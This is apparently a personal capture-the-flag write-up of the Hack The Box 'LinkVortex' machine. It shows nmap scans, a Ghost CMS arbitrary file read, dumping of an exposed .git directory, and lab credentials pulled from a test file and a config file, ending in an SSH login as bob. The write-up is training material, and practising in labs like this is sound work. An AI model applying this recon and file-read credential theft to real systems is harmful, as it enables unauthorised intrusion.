 export ip = `10.10.11.47`

![](Attachments/Pasted%20image%2020241217175924.png)


# Date 17-12-2024 || Rohit Tiwari

# CheckList
- [ ] Nmap scan
- [ ] Fuzz
- [ ] Check manually imp for hidden dirtories or any url
- [ ] get root



## Nmap scan
1. Initial Nmap scan just to get the depth of the machine 
```bash
┌──(dedrknex㉿kali)-[~/oscp/hackthebox/greenhorn_10.10.11.25/LinkVortex_10.10.11.47]
└─$ nmap -p- --min-rate 100000 $ip                
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

> Summary so according to the scan we have two ports open
> Port 80 (favorite) and port 22 {try to find some credentials for it}

2. A full scan about the version os which is used tech and etc ..

```bash
┌──(dedrknex㉿kali)-[~/oscp/hackthebox/greenhorn_10.10.11.25/LinkVortex_10.10.11.47]
└─$ sudo nmap -sVC -v -A $ip -T4 -p- -oN linscan_second

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
|_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
80/tcp    open     http    Apache httpd
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://linkvortex.htb/
|_http-server-header: Apache
25548/tcp filtered unknown
37839/tcp filtered unknown
40034/tcp filtered unknown
42582/tcp filtered unknown
52594/tcp filtered unknown
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0
Uptime guess: 9.985 days (since Sat Dec  7 18:49:03 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```




# Port 80

>Upon visiting the site found the dns name for the site 

![](Attachments/Pasted%20image%2020241217180918.png)

- Added the dns name to the /etc/hosts file 
![](Attachments/Pasted%20image%2020241217181052.png)

> After that starts manual hunting in the site for some clues
> find a cms ghosts with some version no. using wapplyzer 


### Got first bug 

> Found a aribitary file read bug in the site.

![](Attachments/Pasted%20image%2020241217181607.png)





## Fuzzing and enumerating

> Now starts the fun time let's fuzz the machine to find some hidden directory and files or a subdomain 



On emumerating found dir /about on inspecting the source page found a credential

![](Attachments/Pasted%20image%2020241217183640.png)


> After fuzzing found a subdomain there found /.git dir 
> using git-dumper dump the git files

under 

```bash
┌──(dedrknex㉿kali)-[~/…/test/regression/api/admin]
└─$ cat authentication.test.js | grep -n "pass"
56:            const password = 'OctopiFociPilfer45';
69:                        password,

```


Found password : OctopiFociPilfer45
			user: admin

## Rember the cve we found earlier now using that we will gain the shell

![](Attachments/Pasted%20image%2020241217195954.png)


> Found dockerfile.ghost on the master folder of git dumper 

![](Attachments/Pasted%20image%2020241217200231.png)

> On the shell used this file to get more credential

```bash
file> /var/lib/ghost/config.production.json
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
}
file> 

```


## Logged into ssh

```bash
┌──(dedrknex㉿kali)-[~/…/greenhorn_10.10.11.25/LinkVortex_10.10.11.47/git-dumper/DIR]
└─$ ssh bob@linkvortex.htb                          
The authenticity of host 'linkvortex.htb (10.10.11.47)' can't be established.
ED25519 key fingerprint is SHA256:vrkQDvTUj3pAJVT+1luldO6EvxgySHoV6DPCcat0WkI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'linkvortex.htb' (ED25519) to the list of known hosts.
bob@linkvortex.htb's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Dec 17 14:25:01 2024 from 10.10.14.54
bob@linkvortex:~$ whoami
bob
bob@linkvortex:~$ 
```
